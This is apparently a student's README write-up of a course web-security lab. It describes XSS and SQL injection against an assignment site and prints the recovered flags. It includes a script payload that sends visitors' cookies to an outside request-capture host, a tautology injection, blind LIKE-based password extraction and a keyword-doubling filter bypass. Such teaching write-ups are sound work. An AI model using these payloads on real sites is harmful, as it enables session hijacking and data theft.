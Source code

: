 ## Web Application Vulnerabilities
In this assignment try to exploit some vulnerabilities in web apps using techniques like SQL Injection and Code Injection. And also the way we can protect web applications of 
these form of attacks. Access to resources of the assignment is restricted due to the course policy, But I'll try to provide useful information on it.
### Cross-Site Scripting (XSS) 
This type of attack inculdes methods to inject codes to the website which are executed when this pages seen by the other users (XSS Refⅼeⅽteⅾ). I found some fields in the website which were exploitable. 
So I tried to inject a code to steal cookies of visitors and send them to desired address. Having the cookie, we can find session ID of users and exploit this for impersonation.  
By injecting following command in a part of website as fake image we can steal the cookie.
```
<script>new Image().src="http://ptsv.com/t/zrbff-1573749449/post?cookie="+document.cookie;</script>
```
In one of the fields of cookie you can see the flag of this part which is:
```
FLAG{ill_see_marvel_movies_ill_join_a_gym_ill_heart_things_on_instagram_ill_drink_vanilla_lette}
```
### SQL Injection 
After finding out that there is a admin username in the website, I tried to find corresponding password for it. First I consider a probable
format for input like what demonstrated down below.
```
$username=$_POST['username'];
$bool = EXISTS(SELECT * FROM $tbl_name WHERE username='$username');
$result=mysql_query($sql);
```
To test my guesses, I give an input as following and the website return "Okey" which means my prior hypothesis about the input format was right.
```
$bool = EXISTS(SELECT * FROM $tbl_name WHERE username=' ' OR '1'='1' ; -- ');
```
So after that I write a python script ([pass.py](https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Web%20Application%20Vulnerabilities/codes/pass_finder.py)) that uses <b>"LIKE"</b> command in SQL, and test all different ASCII letters to find password. this took less then 5 minutes to find the password. The output of this code would be:
```
Password = NeverStorePlaintextPa$$w0rd
```
After logging into website I tried to find name of the tables. But we know that command of SQL will remove due to the sanitization protection. So we employ a clever technique to bypass this. So for example instead of using "select" if I used "selselectect", the protection will remove select in the middle and what is left is select!   
I developed a python code to automate this procedure named [table_finder.py](https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Web%20Application%20Vulnerabilities/codes/table_finder.py). 
The output was:
```
['blog', 'enc']
```
With a similar approach I found the name of rows of "enc" table in another code ([column_finder.py](https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Web%20Application%20Vulnerabilities/codes/column_finder.py)). Rows names are:
```
['ciphertext', 'id', 'plaintext']
```
Since there are many entries in table, I wrote a python code to automatically find the flag named [chiper_finder.py](https://github.com/amir-sabzi/Network_Systems_Security/blob/master/Web%20Application%20Vulnerabilities/codes/chiper_finder.py). Finally the flag was:
```
FLAG{come_home_to_the_unique_flavor_of_shattering_the_grand_illusion...come_home_to_simple_rick}
```
